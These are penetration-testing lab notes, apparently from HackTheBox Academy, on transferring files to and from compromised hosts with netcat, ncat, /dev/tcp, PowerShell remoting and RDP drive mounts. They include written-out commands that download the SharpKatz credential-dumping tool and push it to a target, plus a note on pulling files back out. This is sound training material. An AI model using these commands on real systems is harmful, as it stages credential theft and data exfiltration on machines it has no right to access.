 # Miscellaneous File Transfer Methods
## File Transfer with Netcat and Ncat
**NetCat - Target Machine - Listening on Port 8000**
```bash
$ nc -l -p 8000 > SharpKatz.exe
```

**Ncat - Target Machine - Listening on Port 8000**
```bash
$ # Example using Ncat
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Netcat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

**Ncat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

**Attack Host - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Compromised Machine Connect to Netcat to Receive the File**
```bash
$ nc 192.168.49.128 443 > SharpKatz.exe
```

**Attack Host - Sending File as Input to Ncat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Target Machine Connect to Ncat to Receive the File**
```bash
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

**NetCat - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```bash
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

`Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.`

## PowerShell Session File Transfer
**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01**
```bash
> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**
```bash
> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```bash
> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```bash
> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
**Mounting a Linux Folder Using rdesktop**
```bash
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**
```bash
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session.


Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

After selecting the drive, we can interact with it in the remote session that follows.

`Note: This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.
